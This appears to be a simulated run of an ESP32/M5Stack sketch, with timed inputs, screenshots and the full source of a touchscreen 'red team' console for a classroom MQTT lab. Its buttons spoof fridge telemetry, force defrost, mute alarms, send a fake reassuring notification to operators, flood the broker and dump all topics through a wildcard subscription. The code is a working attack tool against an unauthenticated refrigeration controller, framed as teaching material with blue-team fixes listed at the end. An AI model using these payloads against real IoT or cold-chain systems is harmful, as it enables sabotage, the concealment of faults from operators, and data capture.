
A sketch run on a simulated ESP32. On the bench: 320×240 colour display. The inputs (shaded band) are chosen by the test bench. WiFi joins after 1.5 s; servers stay silent unless stated; random numbers use the default seed unless the sketch sets one; no MQTT or app messages arrive unless stated; what the sketch prints to the serial monitor is not drawn.

Above: at 3.0 s.
3.1 s: touch panel pressed at 13 % / 30 % of its raw x / y range
At 4.8 s:

6.1 s: MQTT message "1" arrives on the first subscribed topic
At 7.2 s:

9.1 s: MQTT message "on" arrives on the first subscribed topic
At 9.8 s:

12.1 s: MQTT message "off" arrives on the first subscribed topic
At 13.5 s:

15.1 s: touch panel pressed at 62 % / 30 % of its raw x / y range
At 16.4 s:

16.7 s: touch panel pressed at 13 % / 50 % of its raw x / y range
At 17.7 s:

Timing chart, 0 to 19.3 s (numbered marks = the images above; inputs shaded):


The sketch:

tab5_attacker.ino
```cpp
/* =============================================================================
 *  PROJET RED/BLUE - "TempRegulator Supermarket Attack"
 *  Fichier  : tab5_attacker.ino
 *  Rôle     : CONSOLE D'ATTAQUE (M5Stack Tab5) pour l'ÉQUIPE ROUGE.
 *             Menu tactile déclenchant des attaques MQTT contre le rayon frais.
 *
 *  ⚠️  USAGE STRICTEMENT PÉDAGOGIQUE — laboratoire isolé GI-CNAM uniquement.
 *      Toute utilisation hors de ce réseau de classe est interdite et illégale.
 *
 *  Chaque bouton illustre UNE technique de pentest (voir rapport). Les attaques
 *  "lourdes" (bruteforce, MITM, DDoS massif) se font côté Kali via mqtt_pentest.py ;
 *  cette console sert aux injections rapides et aux démonstrations en direct.
 *
 *  Librairies : M5Unified, PubSubClient, ArduinoJson.
 * ============================================================================= */

#include <M5Unified.h>
#include <WiFi.h>
#include <PubSubClient.h>
#include <ArduinoJson.h>

/* --- Cible : le MÊME WiFi et le MÊME broker que la victime (c'est la faille) --- */
const char* WIFI_SSID = "RAYON_FRAIS";
const char* WIFI_PASS = "supermarket2026";
const char* MQTT_HOST = "192.168.10.10";
uint16_t    MQTT_PORT = 1883;
const char* MQTT_USER = "";                 // anonyme possible en Phase 1
const char* MQTT_PASS = "";

#define GROUP "g1"   // cible du groupe : g1..g4 (doit viser la victime de CE groupe)
#define T_TELEMETRY ("market/" GROUP "/fridge/telemetry")
#define T_CMD       ("market/" GROUP "/fridge/cmd")
#define T_NOTIFY    ("market/" GROUP "/tab5/notify")
#define T_WILD      ("market/" GROUP "/#")   // scope groupe (un vrai "#" verrait TOUS les groupes)

WiFiClient   net;
PubSubClient mqtt(net);

/* -------------------------------- MENU ----------------------------------- */
struct Btn { const char* label; uint16_t color; };
Btn buttons[] = {
  {"1. SCAN topics (#)",       TFT_BLUE},     // ATT-01 reconnaissance
  {"2. FAUX capteur 4.0C",     TFT_PURPLE},   // ATT-05 spoofing (masque le dégivrage)
  {"3. DEGIVRAGE ON (sabotage)",TFT_RED},     // ATT-05 injection commande
  {"4. MUTE alarme",           TFT_MAROON},   // ATT-05 désactiver la sécurité
  {"5. Notif rassurante",      TFT_OLIVE},    // ATT-08/leurre social
  {"6. FLOOD telemetry x200",  TFT_ORANGE},   // ATT-07 DoS applicatif
  {"7. EXFIL (dump #)",        TFT_DARKGREEN},// ATT-09 exfiltration
  {"8. STOP / reset cible",    TFT_DARKGREY}, // remet defrost=off, setpoint=4
};
const int NB = sizeof(buttons) / sizeof(buttons[0]);
String logLine = "Pret.";
volatile long exfilCount = 0;
bool exfilOn = false;

/* ------------------------------- OUTILS ---------------------------------- */
void publishJson(const char* topic, const JsonDocument& doc) {
  char buf[256]; size_t n = serializeJson(doc, buf);
  mqtt.publish(topic, buf, n);
}

void onMessage(char* topic, byte* payload, unsigned int len) {
  // Mode exfiltration : on affiche/compte tout ce qui transite (abonnement '#').
  if (!exfilOn) return;
  exfilCount++;
  String p; for (unsigned i = 0; i < len && i < 60; i++) p += (char)payload[i];
  logLine = String("EXFIL ") + topic + " = " + p;
  Serial.printf("[EXFIL] %s | %s\n", topic, p.c_str());
}

/* ------------------------------ ATTAQUES --------------------------------- */
void attScanTopics() {
  exfilOn = false;
  mqtt.subscribe(T_WILD);
  logLine = "Abonne a '#' : topics decouverts dans la console serie.";
  exfilOn = true;                      // réutilise le callback pour lister
}

void attFakeSensor() {                 // ATT-05 : fausse température "tout va bien"
  StaticJsonDocument<128> d;
  d["temp"] = 4.0; d["hum"] = 55.0; d["setpoint"] = 4.0;
  d["defrost"] = false; d["alarm"] = false; d["ts"] = millis();
  publishJson(T_TELEMETRY, d);
  logLine = "Injecte fausse telemetry 4.0C (masque le sabotage).";
}

void attDefrostOn() {                  // ATT-05 : commande malveillante de dégivrage
  StaticJsonDocument<64> d; d["defrost"] = true;
  publishJson(T_CMD, d);
  logLine = "DEGIVRAGE force ON -> la cible va chauffer !";
}

void attMuteAlarm() {                  // ATT-05 : couper la sécurité métier
  StaticJsonDocument<64> d; d["mute"] = true;
  publishJson(T_CMD, d);
  logLine = "Alarme coupee (mute=true).";
}

void attFakeNotify() {                 // leurre : rassurer l'opérateur
  StaticJsonDocument<96> d;
  d["level"] = "info"; d["msg"] = "Systeme nominal - maintenance en cours";
  publishJson(T_NOTIFY, d);
  logLine = "Fausse notification rassurante envoyee au pupitre.";
}

void attFlood() {                      // ATT-07 : DoS applicatif (storm)
  StaticJsonDocument<96> d;
  for (int i = 0; i < 200; i++) {
    d["temp"] = random(-200, 200) / 10.0; d["ts"] = i;
    publishJson(T_TELEMETRY, d);
  }
  logLine = "FLOOD : 200 messages envoyes sur telemetry.";
}

void attExfil() {                      // ATT-09 : capture globale
  exfilCount = 0; exfilOn = true;
  mqtt.subscribe(T_WILD);
  logLine = "EXFILTRATION active : capture de tous les topics...";
}

void attReset() {                      // remet la cible propre entre 2 démos
  exfilOn = false;
  StaticJsonDocument<96> d; d["defrost"] = false; d["setpoint"] = 4.0; d["mute"] = false;
  publishJson(T_CMD, d);
  logLine = "Cible reinitialisee (defrost off, setpoint 4).";
}

void runAttack(int i) {
  switch (i) {
    case 0: attScanTopics(); break;  case 1: attFakeSensor(); break;
    case 2: attDefrostOn();  break;  case 3: attMuteAlarm();  break;
    case 4: attFakeNotify(); break;  case 5: attFlood();      break;
    case 6: attExfil();      break;  case 7: attReset();      break;
  }
}

/* ------------------------------- UI -------------------------------------- */
int btnH, cols = 2, rows;
void drawMenu() {
  auto& d = M5.Display;
  d.fillScreen(TFT_BLACK);
  d.fillRect(0, 0, d.width(), 46, TFT_RED);
  d.setTextColor(TFT_WHITE); d.setTextSize(3);
  d.setCursor(12, 10); d.print("RED TEAM - Console d'attaque");

  rows = (NB + cols - 1) / cols;
  btnH = (d.height() - 46 - 70) / rows;
  int w = d.width() / cols;
  for (int i = 0; i < NB; i++) {
    int cx = (i % cols) * w, cy = 46 + (i / cols) * btnH;
    d.fillRoundRect(cx + 6, cy + 6, w - 12, btnH - 12, 8, buttons[i].color);
    d.setTextColor(TFT_WHITE); d.setTextSize(2);
    d.setCursor(cx + 16, cy + btnH / 2 - 6); d.print(buttons[i].label);
  }
  d.fillRect(0, d.height() - 64, d.width(), 64, TFT_DARKGREY);
  d.setTextSize(2); d.setTextColor(TFT_GREENYELLOW);
  d.setCursor(10, d.height() - 46); d.print(logLine.substring(0, 54));
  if (exfilOn) { d.setCursor(10, d.height() - 24);
                 d.printf("messages captures : %ld", exfilCount); }
}

int hitTest(int x, int y) {
  if (y < 46 || y > M5.Display.height() - 64) return -1;
  int w = M5.Display.width() / cols;
  int col = x / w, row = (y - 46) / btnH, i = row * cols + col;
  return (i >= 0 && i < NB) ? i : -1;
}

/* ------------------------------ WIFI/MQTT -------------------------------- */
void wifiConnect() {
  WiFi.mode(WIFI_STA); WiFi.begin(WIFI_SSID, WIFI_PASS);
  uint32_t t0 = millis();
  while (WiFi.status() != WL_CONNECTED && millis() - t0 < 15000) delay(300);
}
void mqttConnect() {
  mqtt.setServer(MQTT_HOST, MQTT_PORT); mqtt.setCallback(onMessage);
  while (!mqtt.connected()) {
    bool ok = (strlen(MQTT_USER) > 0)
                ? mqtt.connect("atk-" GROUP, MQTT_USER, MQTT_PASS)
                : mqtt.connect("atk-" GROUP);
    if (!ok) delay(1500);
  }
}

void setup() {
  auto cfg = M5.config(); M5.begin(cfg);
  M5.Display.setRotation(1);
  Serial.begin(115200);
  wifiConnect(); mqttConnect();
  drawMenu();
}

void loop() {
  M5.update();
  if (!mqtt.connected()) mqttConnect();
  mqtt.loop();

  if (M5.Touch.getCount()) {
    auto t = M5.Touch.getDetail();
    if (t.wasPressed()) {
      int i = hitTest(t.x, t.y);
      if (i >= 0) { runAttack(i); drawMenu(); }
    }
  }
  static unsigned long last = 0;
  if (exfilOn && millis() - last > 600) { last = millis(); drawMenu(); }
}

/* =============================================================================
 *  Quand l'ÉQUIPE BLEUE a durci la cible, CES BOUTONS DOIVENT ÉCHOUER :
 *   - SCAN/EXFIL (#)  -> refusés par l'ACL du broker (pas de wildcard pour ce client)
 *   - FAUX capteur    -> refusé : seul le compte "sensor" peut publier telemetry (D1)
 *   - DEGIVRAGE/MUTE  -> refusé : commandes réservées à l'identité "regulator" (D1)
 *   - connexion même  -> refusée : plus d'anonyme + MAC non autorisée au WiFi (D8/D9)
 *  C'est la PREUVE de remédiation à consigner dans le rapport (re-test Phase 3).
 * ============================================================================= */
```

Measured:
- after the input at 3.1 s, the display: changes after 0.32 s (image 1)
- after the input at 6.1 s, the display: changes after 0.33 s (image 2)
- after the input at 9.1 s, the display: changes after 0.33 s (image 3)
- after the input at 12.1 s, the display: changes after 0.34 s (image 4)
- after the input at 15.1 s, the display: changes after 0.16 s (image 5)
- after the input at 16.7 s, the display: changes after 0.16 s (image 6)
